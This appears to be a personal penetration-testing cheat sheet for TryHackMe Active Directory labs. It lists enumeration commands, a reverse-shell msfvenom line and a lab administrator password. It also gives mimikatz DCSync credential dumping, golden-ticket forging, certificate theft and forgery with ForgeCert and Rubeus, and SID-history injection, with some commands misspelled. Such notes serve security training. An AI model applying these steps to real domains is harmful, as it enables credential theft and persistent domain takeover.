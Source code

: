 # Basic Steps

[Tyler's Notebook](https://southeasttech-my.sharepoint.com/:o:/g/personal/tyler_ramsbey_southeasttech_edu/EmrNEjx_FjRKjYRotc9TikMB7DtzCwhKWOAEovdtZADBgg?rtime=bQkHVxRr20g)

## Automatic web enum
- dirb | dirsearch
- linpeas
- wpsscan -U user -P password

## Basic network
- nmap (all ports)
  - script: locate -r nse$ | grep NAME
- nmap Scrips
  - locate -r nse$ | grep mysql = nmap script

## Linux
- sudo -l
- find / -perm -u=s -type f 2>/dev/null
- find / -type f -perm -04000 -ls 2>/dev/null 
- psexec.py
- lscpu
- lsblk -a
- lsusb -v
- lspci -t -v
- fidlist -l
  
- Shell stabilize
  -  python3 -c 'import pty;pty.spawn("/bin/bash")'
  - python3 -c  import pty;pty.spawn('/bin/bash') 
  - export TERM=xterm

## Payloads
- msfvenom - reverse -f aspx -o app.aspx

## Windows
- /priv
- systeminfo
- smb read/write
- browser cache
- scheduled task
- UAC
- Check loggings
  - sysmon enable / powershell loggging enabled ?
- echo %VARIABLE%


# Exploring AD
resolv.conf
search lan za.tryhackme.loc
nameserver 10.200.77.101
nameserver 10.0.0.1
options timeout:1
options attempts:2
sudo systemctl restart networking.service
dig thmdc.za.tryhackme.loc
nslookup google.com

**SSH**: ssh za.tryhackme.loc\\Administrator@thmwrk1.za.tryhackme.loc
Y2VgRWWiQ

Administrator:tryhackmewouldnotguess1@

# 2
```
# Dsycn
mimikatz.exe

lsadump::dcsync /domain:za.tryhackme.loc /user:aaron.jones

log username_dcdump.txt
lsadump:dcsync /domain:za.tryhackme.loc
lsadump::dcsync /domain:za.tryhackme.loc /all
```

# 3
```
# Generate Golden/Silver Ticket

NTL hash : krbtgt

hash:THMSERVER1

# SID
Get-ADDomain ==> SID
kerberis::golden /admin:NotAccount /domain:za.tryhackme.loc /id:500 /sid:SID /krbtgt:HASH /endin:600 /renewmax:10080 /ptt

```

# 4
 - Login to admin
 - mimikatz
```
crypto::certificates /systemstore:loca_machine

privilege::debug
crypto::capi
crypto::cng
crypto:.certificates /systemstore:local_machine /export

.pfx
password:mimikatz

Copy to low pivleged user
- We have Private_KEY + Root Certificate

# generate certificate
ForgeCert.exe --CaCertPath file.pfx --CaCertPassword mimikatz --Subject CN=User --SubjectAltName Administrator@za.tryhackme.loc --NewCertPath  fullAdmin.pfx --NewCertPassword Password123

# request TGT
Rubeus.exe asktgt /user:Administtrator /enctype:aes256 /certificate:file.pfx /password:Password123 /outfile:file.kirbi /domain:za.tryhackme.loc /dc:IPDOMAIn

# load ticket
kerberos::ptt file.kirbi
```

# 5

```
# check sid info
Get-ADUser NAME -properties sidhistory,memberof

# get sid admin
get-ADgroup "Domain Admins"

Stop-service -Name ntds -force
Add-ADDBSidHistory -SamAccountName 'low user' -SidHistory 'Sid to add' -DatabasePath
Start-service -Name ntds

# Login LOW user
# check sid history
dir \\thmdc.za.tryhackme.loc\c$
```